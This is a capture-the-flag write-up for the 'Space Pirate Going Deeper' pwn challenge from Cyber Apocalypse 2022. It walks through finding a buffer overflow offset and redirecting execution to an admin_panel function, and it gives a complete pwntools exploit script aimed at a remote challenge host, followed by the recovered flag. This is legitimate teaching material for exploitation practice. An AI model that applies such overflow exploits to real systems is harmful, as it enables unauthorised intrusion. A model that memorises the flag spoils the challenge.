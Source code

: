 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2022 | Space Pirate Going Deeper Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2022
parent: cyber_apocalypse_2022
category: pwn
challenge: Space Pirate Going Deeper
tags: "pwn, taz, bof, python"
date: 2022-05-21T00:00:00+00:00
last_modified_at: 2022-05-21T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2022</h1>

## Space Pirate Going Deeper
> Solved by:  Taz34

Here we have a 64 bit binary which takes input as follows:

![](https://i.imgur.com/q2tXif4.png)

After playing around with the binary i came across a Segmentation fault, hence we have a buffer overflow exploit here.

![](https://i.imgur.com/u0IXBic.png)

So I found the offset to be 50. 

Now to understand the working of the binary I opened the binary in Cutter
https://cutter.re/

Here we came across the main function and another interesting function named admin_panel
In the admin_panel function we came across an if statement:

![](https://i.imgur.com/w6r55nM.png)

From here we can understand that, if we want to print the flag i.e. `system(``"``cat flag``"``);`
we need to make the if condition false.

So now we can create the payload

```python
payload = b'A'*offset + ret_addr_main + ret_addr_admin_panel + if_arg1 + if_arg3 + if_arg3
payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)
```

Now we have our payload set, hence the final script:

```python
from pwn import *
#elf = ELF('./sp_going_deeper')
#p = elf.process()
p = remote("138.68.161.126", 31239) 

payload = b'A'*50 + p64(0x400b9a) + p64(0x400b46) +p64(0xdeadbeef) + p64(0x1337c0de) + p64(0x1337beef)

p.sendline('1')
p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/jgsMkE9.png)


And here the flag is dumped.

```
Flag: HTB{no_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_flow_r3d1r3ct}
```